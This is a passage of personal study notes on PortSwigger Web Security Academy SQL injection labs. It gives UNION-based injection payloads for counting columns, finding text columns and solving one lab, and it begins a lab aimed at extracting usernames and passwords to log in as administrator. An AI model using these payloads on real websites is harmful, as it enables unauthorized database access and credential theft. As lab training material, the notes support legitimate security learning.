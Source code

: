 select a, b, c from table1 UNION select NULL, NULL, 'a' -- 

```
  ( '+UNION+SELECT+NULL,NULL,'a'--) or( '+UNION+SELECT+1,2--) depending on DB like MSsql or postgres etc.
```
  
-> error -> column is not type text
-> no error -> column is of type text

```
Analysis:

' order by 1--
-> 3 columns -> 1st column is not shown on the page.

' UNION select NULL, 'KsZXy4', NULL--
-> 2nd column of type string

' UNION select 'a', NULL, NULL--'
' UNION select NULL, 'a', NULL--
```



```
requried to get this string from DB: '3TcZLM'

Query used to solve the lab:
'+UNION+SELECT+NULL,'3TcZLM',NULL--
```



# 6)Lab: SQL injection UNION attack, retrieving data from other tables(https://portswigger.net/web-security/sql-injection/union-attacks)

Lab video: https://www.youtube.com/watch?v=6Dsj5SqR944

Notes: https://github.com/rkhal101/Web-Security-Academy-Series/blob/main/sql-injection/lab-05/notes.txt
SQL Injection - Product category filter.

End Goal - Output the usernames and passwords in the users table and login as the administrator user.

Analysis:
--------

1) Determine # of columns that the vulnerable query is using
' order by 1--
' order by 2--
' order by 3-- -> internal server error

3-1 = 2

